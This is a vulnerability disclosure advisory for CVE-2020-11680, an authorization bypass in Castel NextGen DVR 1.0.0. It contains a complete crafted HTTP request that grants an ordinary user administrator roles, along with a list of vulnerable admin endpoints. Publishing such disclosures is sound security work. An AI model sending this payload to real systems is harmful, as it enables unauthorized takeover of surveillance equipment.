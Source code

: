 An Authorization Bypass, CVE-2020-11680, was identified on **Castel NextGen DVR** version 1.0.0 due to functionality reserved for an Administrator not verifying user permissions when the functionality is called.

## Timeline

* Issue Disclosed: 3 Jun 2020 - [Blog post](https://www.securitymetrics.com/blog/attackers-known-unknown-authorization-bypass)

## Description

A malicious user can craft a request which calls the functionality to modify the roles associated with their account, the request would be similar to:

~~~
POST /Administration/Users/Edit/:ID HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: $REVIEWER_COOKIES
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 349

UserId=:ID&Email=bypass%40test.com&FirstName=bypass&LastName=bypass&LDAPUser=false&Roles%5B0%5D.RoleId=1&Roles%5B0%5D.IsSelected=true&Roles%5B0%5D.IsSelected=false&Roles%5B1%5D.RoleId=3&Roles%5B1%5D.IsSelected=true&Roles%5B1%5D.IsSelected=false&Roles%5B2%5D.RoleId=5&Roles%5B2%5D.IsSelected=true&Roles%5B2%5D.IsSelected=false&Locked=false
~~~

The request returns a generic error:

![](error.png)

However, the action is performed.

The following functionality was vulnerable:

~~~
POST /Administration/Alerts/Create          POST /Administration/Alerts/Delete
POST /Administration/Archiving/             POST /Administration/Archiving/Create
POST /Administration/Archiving/Delete       POST /Administration/FileStores/Create
POST /Administration/FileStores/Delete      POST /Administration/LDAP
POST /Administration/Roles/Create           POST /Administration/Roles/Edit/:RoleId
POST /Administration/Roles/Delete           POST /Administration/SMTP
POST /Administration/Users/Create           POST /Administration/Users/Edit/:UserId
POST /Administration/Users/ResetPassword    POST /Administration/FileStores/Edit/:FileStoreId
POST /Administration/Archiving/Edit/:ArchiveRuleId
POST /Administration/Alerts/Edit/:EventAlertId
~~~

